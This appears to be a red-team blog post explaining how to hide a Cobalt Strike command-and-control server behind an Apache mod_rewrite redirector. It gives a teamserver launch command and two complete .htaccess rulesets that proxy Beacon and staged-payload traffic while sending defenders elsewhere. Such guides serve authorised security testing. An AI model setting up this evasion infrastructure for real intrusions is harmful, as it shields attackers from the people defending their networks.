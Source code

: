 ```yaml
---
layout: post
title: Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite
summary: How to set up a Command and Control redirector to only allow Cobalt Strike's C2 through. Uses Apache's rewrite module to handle the filtering.
tags: 
- mod_rewrite
- cobalt strike
featuredimage: /assets/apache/cobalt-strike-http-c2-demo.gif
---
```


Imagine you are performing a Red Team engagement. So far it's been very hard, fighting tooth and nail to get each step closer to totally owning their network. You finally get internal network access and things are stable. Everything looks good on your end, but on the Blue side of things IT is taking notice of traffic flowing to an unknown domain. A curious IT worker opens their browser and navigates to the site. 404 error. Suspicion++. Five minutes later your Beacons become unresponsive. You're blocked. Now you have to spin up some new infrastructure and get in again.

I am willing to bet we've all been in a similar situation at least once. One way we can reduce the risk of being caught is by using a redirector host to allow only command and control (C2) traffic reach our Cobalt Strike server and redirect all other traffic to an innocuous website, such as the target's site. A simple way to do this is using an Apache redirector as an intermediary server. Our C2 domain will point at the Apache redirector, which will perform the traffic filtering. An added benefit of using a separate host in this setup is if our domain is burned, our real Cobalt Strike team server's IP will still be useable. We can roll the redirector, get a new IP and domain, and be back in business. If we set up multiple callback domains in our Beacon payload, we won't even need to regain initial access.


# Infrastructure

You will need a fresh host to use as the Apache redirector. The host should be relatively easy to reconfigure with a new public IP. While a colo host will work, using a VPS is often an easier option. Keep in mind that all traffic used by Beacon will be received and sent back out (to your Cobalt Strike teamserver) by the host, so spec out the bandwidth and resources accordingly. Of course, the obligatory warning stands: make sure you understand your provider's Terms of Service and any applicable laws before using this for an engagement. 

Here is what our infrastructure will look like:
![Cobalt Strike HTTP C2 Redirector Infrastructure](/assets/apache/cobalt-strike-http-c2.png)


# Cobalt Strike

As you may expect, Cobalt Strike's Beacons use GET and POST requests for HTTP communications. Requests are made to URIs configured within the team server's Malleable C2 profile. Within the profile we can configure the request URIs, headers, parameters, and a number of other C2 options. I *highly* recommend reading the [documentation](https://www.cobaltstrike.com/help-malleable-c2) on Malleable C2 before using it; it's powerful! [@harmj0y's](https://twitter.com/harmj0y) post [A Brave New World: Malleable C2](http://www.harmj0y.net/blog/redteaming/a-brave-new-world-malleable-c2/) provides additional great insight.

For demonstration, we will use @harmj0y's Zeus Malleable C2 profile available [here](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/zeus.profile). The profile configures Beacons to use the following C2 settings:

* user-agent: *Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2)*
* HTTP GET URI: */metro91/admin/1/ppptp.jpg* 
* HTTP POST URI: */metro91/admin/1/secure.php*

To start Cobalt Strike with a Malleable C2 profile, use the following syntax:

```bash
./teamserver <Public IP> <password> </path/to/profile>
```

Make sure to configure your Cobalt Strike listeners and payloads to call out to your redirection domain(s), *spoofdomain.com* in our example. During a Red Team engagement, you will likely configure multiple callback domains

# Apache 

To set up Apache to use mod_rewrite, follow the first-time setup steps outlined in my [previous mod_rewrite post](https://bluescreenofjeff.com/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). 


The way we configure our htaccess rules will depend on whether we need to support staged Beacons, such as [Scripted Web Delivery](https://www.cobaltstrike.com/help-scripted-web-delivery), or not. 

## HTTP C2 Redirection Ruleset

To only perform HTTP C2 redirection, place the following ruleset in a *.htaccess* file within the Apache web root:

```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

Replace *TEAMSERVER-IP* with the WAN IP of your Cobalt Strike team server. After saving the file, Apache will send requests for an approved URI with the user-agent configured in the Malleable C2 profile to our Cobalt Strike team server and redirect all other requests to *http://example.com/*. The question mark towards in line 7 ends the rewrite and redirects the user to exactly *http://example.com/*. If you want to retain the original request URI, delete the question mark.

Notice that the two expected HTTP URIs on line 4 are split by a pipe, enclosed in parentheses, and omit the leading forward slash. You can add other URIs the same way; this line is evaluated as a regular expression. Also note that the HTTP User Agent regex on line 3 requires all spaces, periods, and parentheses be escaped.

 
If you configure your Cobalt Strike listener to use a port other than port 80, you will need to configure Apache to [listen on that port](http://httpd.apache.org/docs/current/bind.html). By default on Debian, you can edit the port(s) Apache listens on in `/etc/apache2/ports.conf` and `/etc/apache2/sites-enabled/000-default.conf`. 


## HTTP C2 Redirection with Payload Staging Support
```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/updates/?$
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

New rules are added to lines 2 - 7. 

On line 2 the */updates/* URI is the URI configured in our Scripted Web Delivery. When the target host executes the web delivery command, it will first make a GET request to the configured URI with a blank HTTP User Agent. Lines 2 - 4 allow the request to be proxied to our teamserver. The next request the target host makes is GET to a random four character URI with the HTTP User Agent configured in the Malleable C2 profile. 

Lines 5 - 7 allow this second request through. It is possible that this pattern will change, so be sure to test your rulesets and makes changes accordingly to allow the full staging process to occur.


Here's a demo showing the C2 URL be visited by an end-user, running the Scripted Web Delivery command pulling from the same URL, and establishing a Beacon session through the redirector:
![Cobalt Strike HTTP C2 Redirector Demo](/assets/apache/cobalt-strike-http-c2-demo.gif)

# Summary

In a Red Team engagement, keeping core infrastructure hidden from defenders and flexible to change is crucial. Using Apache's mod_rewrite module we can obscure our command and control (C2) servers behind a VPS that is easily replaced. This way if a defender blocks our C2 domain and its IP, our fallback domains can be pointed to another VPS that proxies requests to the same teamserver used previously.


